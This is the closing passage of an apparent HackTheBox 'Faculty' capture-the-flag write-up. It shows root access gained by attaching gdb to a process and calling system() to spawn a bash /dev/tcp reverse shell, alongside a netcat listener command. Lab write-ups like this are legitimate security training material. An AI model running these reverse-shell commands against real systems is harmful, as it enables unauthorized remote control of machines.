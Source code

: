 And we got it. Let's perform our attack!

## Exploit

Now we just have to interact the process and call a system function to get a reverse shell. We need to set up a listener and perform the exploit.

On our attacking machine:

```zsh
┌──(kali㉿workstation)-[~/Faculty]
└─$ nc -lnvp <PORT>
```

On victim's machine:

```bash
developer@faculty:~$ gdb -p 733
... Very big output ...
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'")
```

![rooted](/assets/hackthebox/faculty/rooted.png)

It worked! The box is pwned!
